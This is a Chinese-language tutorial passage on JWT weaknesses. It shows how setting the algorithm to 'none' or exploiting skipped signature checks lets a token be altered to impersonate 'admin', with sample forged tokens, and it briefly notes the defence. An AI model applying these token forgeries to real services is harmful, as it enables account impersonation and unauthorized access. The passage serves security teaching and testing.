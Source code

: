 `JWT`支持将算法设定为`None`。如果`alg`字段设为`None`，那么签名会被置空，这样任何`token`都是有效的。
**设定该功能的最初目的是为了方便调试。但是，若不在生产环境中关闭该功能，攻击者可以通过将`alg`字段设置为`None`来伪造他们想要的任何`token`，接着便可以使用伪造的`token`冒充任意用户登陆网站**。

举例如下：

```json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJhY3Rpb24iOiJ1cGxvYWQifQ.y2k9SJDRU81ybXm-anxpD2p1N-rKekDJtJGKGJlemjY
```

base64解码：

```json
{"alg":"HS256","typ":"JWT"}
{"user":"admin","action":"upload"}
```

设置 `alg`: `none`不带签名，生成`Token`:

```json
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJhY3Rpb24iOiJ1cGxvYWQifQ.
```

base64解码

```json
{"typ":"JWT","alg":"none"}
{"user":"admin","action":"upload"}
```

然后查看页面是否仍然返回有效？如果页面返回有效，那么说明存在漏洞。
如何抵御这种攻击？ `JWT`配置应该指定所需的签名算法，不可指定”none”。

### 无效签名

当用户端提交请求给应用程序，**服务端可能没有对`token`签名进行校验**，这样，攻击者便可以通过提供无效签名简单地绕过安全机制。

示例：

一个很好的例子是网站上的“个人资料”页面，因为我们只有在被授权通过有效的JWT进行访问时才能访问此页面，我们将重放请求并寻找响应的变化以发现问题。

原请求：

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCIsImFjdGlvbiI6InByb2ZpbGUifQ.FjnAvQxzRKcahlw2EPd9o7teqX-fQSt7MZhT84hj7mU
```

`user` 字段改为 `admin`，重新生成新 `token`：

修改之后：

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhY3Rpb24iOiJwcm9maWxlIn0._LRRXAfXtnagdyB1uRk-7CfkK1RESGwxqQCdwCNSPaI
```

```json
{"typ": "JWT", "alg": "HS256"}.
{"user": "admin","action": "profile"}.
[新的签名]
```
